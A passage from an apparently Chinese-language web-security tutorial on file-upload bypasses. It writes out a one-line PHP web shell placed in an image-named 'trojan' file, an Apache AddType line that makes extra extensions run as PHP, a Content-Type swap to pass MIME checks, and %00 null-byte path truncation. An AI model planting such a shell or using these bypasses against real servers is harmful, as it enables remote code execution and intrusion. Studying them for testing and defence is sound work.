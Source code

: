 ​	木马文件`cc.jpg`中写入如下：

```
<?php @eval($_POST['name']);?>
```







原理如下：

```undefined
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```

关于AddType命令的作用解释如下

> AddType 指令
>  作用：在给定的文件扩展名与特定的内容类型之间建立映射
>  语法：AddType MIME-type extension [extension] ...
>  AddType指令在给定的文件扩展名与特定的内容类型之间建立映射关系。MIME-type指明了包含extension扩展名的文件的媒体类型。
>  AddType 是与类型表相关的，描述的是扩展名与文件类型之间的关系。









#### 2.	MIME绕过

​	

检测上传到服务器的文件类型，在 burp 抓包可以看到类似于 Content-Type: image/gif

修改：Content-Type: text/plain -> Content-Type: image/gif

像这种服务端检测http 包的Content-Type 都可以用这种类似的方法来绕过检测







#### 3.	00截断



 0x00 ， %00 ， /00 之类的截断，都是一样的，只是不同表示而已。

> 其实很多时候，%00截断  是截断 前端 传回 后端的路径。
>
> 一般都是对路径下手而不是图片名！！！



%00

在url中 %00 表示ascll码中的 0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束。

> 注意这是在url中


